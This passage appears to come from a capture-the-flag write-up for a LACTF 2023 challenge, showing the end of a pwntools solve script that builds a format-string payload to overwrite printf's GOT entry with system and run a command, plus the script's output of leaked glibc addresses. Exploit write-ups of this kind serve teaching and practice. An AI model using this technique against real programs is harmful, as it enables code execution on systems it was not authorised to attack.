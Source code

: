```python  
    payload  = ('%' + str(to_write) + 'c%14$hhn').ljust(16, '.').encode()

    to_write = (((system >> 8) & 0xff) - to_write - payload[:16].count(b'.')) % 256  
    payload += ('%' + str(to_write) + 'c%15$hhn').ljust(16, '.').encode()

    to_write = (((system >> 16) & 0xff) - 0x55 - to_write - payload[16:32].count(b'.')) % 256  
    payload += ('%' + str(to_write) + 'c%16$hhn').ljust(16, '.').encode()

    to_write = (256 - 0xd2 - to_write - payload[32:48].count(b'.')) % 256  
    payload += ('%' + str(to_write) + 'c%17$hhn').ljust(16, '.').encode()

    payload += p64(elf.got.printf)  
    payload += p64(elf.got.printf + 1)  
    payload += p64(elf.got.printf + 2)  
    payload += p64(elf.sym.main_called)

    p.sendlineafter(b'Lyrics: ', payload)

    try:  
        p.sendlineafter(b'sh: 1: Lyrics:: not found\n', b'cat flag.txt')  
        p.recvuntil(b'sh: 1: Never: not found\nsh: 2: Never: not found\n')  
        log.success(p.recv().decode().strip())  
    except EOFError:  
        p.close()  
        glibc.address = 0  
        main()

  
if __name__ == '__main__':  
    main()  
```

When executed:  
```bash
$ python3 solve.py lac.tf 31135   

[*] '/home/anger/hack/ctf/LACTF2023/rickroll/rickroll_patched' Arch: amd64-64-little RELRO: Partial RELRO Stack: No canary found NX: NX enabled PIE: No PIE (0x3ff000) RUNPATH: b'.'   
[+] Opening connection to lac.tf on port 31135: Done   
[*] Leaked fgets() address: 0x7fa4f94079c0   
[+] Glibc base address: 0x7fa4f9396000   
[*] Closed connection to lac.tf port 31135   
[+] Opening connection to lac.tf on port 31135: Done   
[*] Leaked fgets() address: 0x7f1ece3cf9c0   
[+] Glibc base address: 0x7f1ece35e000   
[*] Closed connection to lac.tf port 31135   
[+] Opening connection to lac.tf on port 31135: Done   
[*] Leaked fgets() address: 0x7f81dba5f9c0   
[+] Glibc base address: 0x7f81db9ee000   
[*] Closed connection to lac.tf port 31135   
[+] Opening connection to lac.tf on port 31135: Done   
[*] Leaked fgets() address: 0x7f3bdb53c9c0 [+] Glibc base address: 0x7f3bdb4cb000   
[*] Closed connection to lac.tf port 31135   
[+] Opening connection to lac.tf on port 31135: Done   
[*] Leaked fgets() address: 0x7f0c5b7639c0   
[+] Glibc base address: 0x7f0c5b6f2000   
[*] Closed connection to lac.tf port 31135 [+] Opening connection to lac.tf on port 31135: Done   
[*] Leaked fgets() address: 0x7effec44b9c0   
[+] Glibc base address: 0x7effec3da000   
[*] Closed connection to lac.tf port 31135   
[+] Opening connection to lac.tf on port 31135: Done   
[*] Leaked fgets() address: 0x7f438f0d29c0   
[+] Glibc base address: 0x7f438f061000   
[*] Closed connection to lac.tf port 31135   
```